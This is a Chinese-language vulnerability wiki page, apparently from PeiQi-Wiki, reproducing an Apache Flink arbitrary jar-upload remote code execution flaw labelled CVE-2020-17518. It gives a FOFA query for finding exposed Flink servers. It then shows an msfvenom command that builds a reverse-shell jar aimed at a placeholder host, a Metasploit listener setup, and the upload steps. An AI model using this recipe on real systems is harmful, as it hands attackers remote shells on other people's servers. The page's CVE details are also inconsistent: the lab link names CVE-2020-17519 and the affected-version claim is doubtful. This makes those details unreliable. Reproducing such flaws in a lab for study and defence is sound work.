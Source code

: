 ```yaml
---
title: Apache Flink upload 远程命令执行漏洞 CVE-2020-17518
---
```


# Apache Flink upload 远程命令执行漏洞 CVE-2020-17518

## 漏洞描述

近日,有安全研究员公开了一个Apache Flink的任意Jar包上传导致远程代码执行的漏洞，攻击者通过漏洞可以获取系统权限

## 漏洞影响

<a-checkbox checked>Apache Flink <= 1.9.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBcGFjaGUgRmxpbmsi">FOFA: app="Apache Flink"</a-button>
</a-checkbox>

## 环境搭建

<a-alert type="success" message="https://github.com/vulhub/vulhub/tree/master/flink/CVE-2020-17519" description="" showIcon>
</a-alert>

</br>

![06d235d4-965d-44e0-91c0-dc69b97bf48d](/assets/PeiQi-Wiki/img/06d235d4-965d-44e0-91c0-dc69b97bf48d.png)

## 漏洞复现

点击查看文件上传页面

![bb05ef9f-f86f-4bb5-bbcb-c13424d7aca4](/assets/PeiQi-Wiki/img/bb05ef9f-f86f-4bb5-bbcb-c13424d7aca4.png)

打开MSF 生成一个 jar 木马

```
msfvenom -p java/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx  LPORT=4444 -f jar > test.jar
```

点击 Add 上传 jar 文件

![1fcaa45f-0492-4411-b14f-e4554cf84e5b](/assets/PeiQi-Wiki/img/1fcaa45f-0492-4411-b14f-e4554cf84e5b.png)

```shell
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/shell/reverse_tcp
payload => java/shell/reverse_tcp
msf6 exploit(multi/handler) > set lhost xxx.xxx.xxx.xxx
lhost => xxx.xxx.xxx.xxx
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run
```

![3def5e8c-6590-4ecd-8b61-dfcb095bdaa0](/assets/PeiQi-Wiki/img/3def5e8c-6590-4ecd-8b61-dfcb095bdaa0.png)

点击下 submit

![681f48a7-3501-4f52-8532-5efddcc0074f](/assets/PeiQi-Wiki/img/681f48a7-3501-4f52-8532-5efddcc0074f.png)

![16969b72-8db4-42f8-a0e3-b02022ab5f5b](/assets/PeiQi-Wiki/img/16969b72-8db4-42f8-a0e3-b02022ab5f5b.png)